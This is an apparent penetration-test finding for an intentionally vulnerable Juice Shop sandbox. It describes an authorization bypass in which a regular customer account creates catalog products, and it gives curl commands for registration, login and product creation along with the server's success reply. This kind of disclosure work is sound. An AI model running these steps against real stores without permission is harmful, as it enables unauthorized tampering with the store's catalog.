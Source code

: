 ### AUTHZ-VULN-07: Regular Users Creating Products

**Summary:**
- **Vulnerable location:** POST /api/Products endpoint
- **Overview:** Regular customer accounts can create products without admin privileges
- **Impact:** Product catalog manipulation and content pollution by unauthorized users
- **Severity:** High

**Prerequisites:**
Valid customer-level authentication token

**Exploitation Steps:**

1. Register as regular customer:
```bash
curl -s -i -X POST "http://juice-shop.sandbox.local:3001/api/Users" \
  -H "Content-Type: application/json" \
  -d '{
    "email": "regular@user.com",
    "password": "Password123!",
    "passwordRepeat": "Password123!"
  }'
```

2. Login to obtain customer token:
```bash
curl -s -i -X POST "http://juice-shop.sandbox.local:3001/rest/user/login" \
  -H "Content-Type: application/json" \
  -d '{
    "email": "regular@user.com",
    "password": "Password123!"
  }'
```

3. Create product using customer token:
```bash
curl -s -i -X POST "http://juice-shop.sandbox.local:3001/api/Products" \
  -H "Authorization: Bearer [CUSTOMER_TOKEN]" \
  -H "Content-Type: application/json" \
  -d '{
    "name": "Hacked Product by Regular User",
    "description": "This product was created by a regular customer account - proving authorization bypass!",
    "price": 999.99,
    "image": "malicious.jpg"
  }'
```

4. Receive successful product creation:
```json
{
  "status": "success",
  "data": {
    "id": 47,
    "name": "Hacked Product by Regular User",
    "description": "This product was created by a regular customer account - proving authorization bypass!",
    "price": 999.99
  }
}
```
